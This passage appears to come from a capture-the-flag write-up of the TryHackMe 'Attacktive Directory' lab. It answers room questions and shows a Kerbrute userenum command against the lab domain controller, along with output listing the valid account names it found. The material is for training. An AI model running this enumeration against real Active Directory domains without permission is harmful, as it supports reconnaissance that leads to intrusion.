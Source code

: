 #### What invalid TLD do people commonly use for their Active Directory Domain? 

`.local`

___

### Enumerating Users via Kerberos

Wordlists provided:

- [userlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)
- [passwordlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt)

#### What command within Kerbrute will allow us to enumerate valid usernames?

`userenum`

#### What notable account is discovered? (These should jump out at you)

![ldapsearch](https://amirr0r.github.io/assets/img/thm/windows/attackive-directory/ldapsearch.png)

> Do not forget to add `IP spookysec.local` into `/etc/hosts`  

```bash
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d THM-AD userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/19/21 - Ronnie Flathers @ropnop

2021/05/19 04:49:28 >  Using KDC(s):
2021/05/19 04:49:28 >   spookysec.local:88

2021/05/19 04:49:29 >  [+] VALID USERNAME:       james@THM-AD
2021/05/19 04:49:29 >  [+] VALID USERNAME:       svc-admin@THM-AD
2021/05/19 04:49:30 >  [+] VALID USERNAME:       James@THM-AD
2021/05/19 04:49:30 >  [+] VALID USERNAME:       robin@THM-AD
2021/05/19 04:49:34 >  [+] VALID USERNAME:       darkstar@THM-AD
2021/05/19 04:49:36 >  [+] VALID USERNAME:       administrator@THM-AD
2021/05/19 04:49:40 >  [+] VALID USERNAME:       backup@THM-AD
2021/05/19 04:49:42 >  [+] VALID USERNAME:       paradox@THM-AD
2021/05/19 04:49:54 >  [+] VALID USERNAME:       JAMES@THM-AD
2021/05/19 04:49:58 >  [+] VALID USERNAME:       Robin@THM-AD
2021/05/19 04:50:23 >  [+] VALID USERNAME:       Administrator@THM-AD
2021/05/19 04:51:19 >  [+] VALID USERNAME:       Darkstar@THM-AD
2021/05/19 04:51:34 >  [+] VALID USERNAME:       Paradox@THM-AD
2021/05/19 04:52:27 >  [+] VALID USERNAME:       DARKSTAR@THM-AD
2021/05/19 04:52:44 >  [+] VALID USERNAME:       ori@THM-AD
2021/05/19 04:53:14 >  [+] VALID USERNAME:       ROBIN@THM-AD
2021/05/19 04:54:25 >  Done! Tested 73317 usernames (16 valid) in 296.440 seconds
```
